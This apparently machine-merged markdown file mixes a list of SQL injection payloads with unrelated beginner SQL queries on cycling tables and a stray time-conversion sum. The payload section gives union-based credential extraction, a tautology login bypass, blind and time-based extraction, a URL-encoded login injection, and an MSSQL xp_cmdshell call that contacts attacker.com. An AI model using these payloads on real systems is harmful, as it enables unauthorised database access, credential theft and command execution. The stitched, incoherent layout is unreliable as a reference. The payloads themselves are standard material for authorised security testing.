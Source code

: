 # SQL Examples Collection

## 1. SQL Injection Payloads

Exemples de requêtes utilisées pour tester et exploiter les vulnérabilités d'injection SQL.

```sql
-- Union-based injection to extract admin credentials
SELECT name, email FROM users WHERE id = 1
UNION
SELECT username, password FROM admins;

-- Bypass authentication via tautology
SELECT * FROM users WHERE username = 'admin' AND '1'='1';

-- Time-based injection to detect blind SQLi
SELECT IF(1=1, SLEEP(5), 0);

-- Error-based injection to execute shell commands (MSSQL)
SELECT * FROM users WHERE id = 1;
EXEC xp_cmdshell('nslookup attacker.com');

-- Comment out the rest of the query
SELECT * FROM users WHERE id = 1; -- 

-- Extract character by character using substring
SELECT * FROM users WHERE username = 'admin'
  AND SUBSTRING(password, 1, 1) = 'a';

-- Generic boolean-based blind injection
1 OR (SELECT SUBSTR(GROUP_CONCAT(username, password), i, 1) FROM users) = CHAR(j);

-- Inline login injection example
login=%bf' OR 1=1 -- -&password=abc

-- Union with group_concat
' UNION SELECT (SELECT GROUP_CONCAT(username, password) FROM users), 2 -- -
```

> **Astuce** : ajustez les fonctions de concaténation (`GROUP_CONCAT`, `STRING_AGG`, etc.) selon votre SGBD.

---

## 2. Requêtes SQL d'exemple

Requêtes non malicieuses illustrant des opérations courantes sur des tables `Pays`, `Cyclistes` ou `Coureurs`.

### Table `Pays`

```sql
-- Sélection de tous les pays
SELECT * FROM Pays;

-- Sélection de l'ID et du nom pour un code CIO précis
SELECT id, nom FROM Pays WHERE code_cio = 'SWZ';

-- Recherche par nom commençant par 'A'
SELECT * FROM Pays WHERE nom LIKE 'A%';

-- Noms de pays de longueur > 10, triés par ordre décroissant
SELECT * FROM Pays
WHERE LENGTH(nom) > 10
ORDER BY nom DESC;

-- Pagination : 12 enregistrements à partir du 181ᵉ
SELECT * FROM Pays LIMIT 12 OFFSET 180;
```

### Table `Cyclistes`

```sql
-- Tous les cyclistes triés par ID
SELECT id, nom, prenom, idEquipe FROM Cyclistes ORDER BY id ASC;

-- Cyclistes de nationalité française
SELECT nom, prenom, idEquipe
FROM Cyclistes
WHERE nationalite = 'Française';
```

### Table `Coureurs`

```sql
-- Cyclistes dans une équipe contenant 'Française'
SELECT id, nom, prenom, equipe
FROM Coureurs
WHERE equipe LIKE '%Française%';

-- Cyclistes non françaises mais dans une équipe française
SELECT nom, prenom, equipe
FROM Coureurs
WHERE nationalite != 'Française'
  AND equipe LIKE '%Française%';

-- Calcul de l'âge en 2012 et sélection des jeunes (<= 22 ans)
SELECT nom, prenom, date_naissance,
       (2012 - STRFTIME('%Y', date_naissance)) AS age_en_2012
FROM Coureurs
WHERE age_en_2012 <= 22;
```

---

## 3. Conversion de temps

Exemple de conversion pour comprendre une injection time-based :

- 4 minutes, 42 secondes, 174 millisecondes = 240 + 42 + 0.174 = **282.174 secondes**

---

*Fichier généré par SQL_Examples Merge Tool.*
